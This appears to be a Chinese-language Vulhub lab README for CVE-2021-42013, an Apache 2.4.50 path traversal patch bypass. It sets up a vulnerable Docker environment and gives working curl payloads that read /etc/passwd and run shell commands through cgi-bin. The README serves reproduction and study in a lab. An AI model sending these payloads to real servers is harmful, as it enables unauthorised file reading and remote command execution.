


# Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

Apache HTTP Server 是 Apache 基金会开源的一款流行的 HTTP 服务器。Apache 官方在 2.4.50 版本中对 2.4.49 版本中出现的目录穿越漏洞 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) 进行了修复，但这个修复是不完整的，CVE-2021-42013 是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于 Apache 服务器 Web 目录以外的其他文件，或者读取 Web 目录中的脚本文件源码，或者在开启了 cgi 或 cgid 的服务器上执行任意命令。

这个漏洞可以影响 Apache HTTP Server 2.4.49 以及 2.4.50 两个版本。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的 Apache HTTP Server 2.4.50 版本服务器：

```
docker compose build
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 Apache 默认的 `It works!` 页面。

## 漏洞利用

我们使用 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) 中的 Payload 已经无法成功利用漏洞了，说明 2.4.50 进行了修复。

但我们可以使用 `.%%32%65` 进行绕过（注意其中的 `/icons/` 必须是一个存在且可访问的目录）：

```
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到 `/etc/passwd`：



在服务端开启了 cgi 或 cgid 这两个 mod 的情况下，这个路径穿越漏洞将可以执行任意命令：

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```


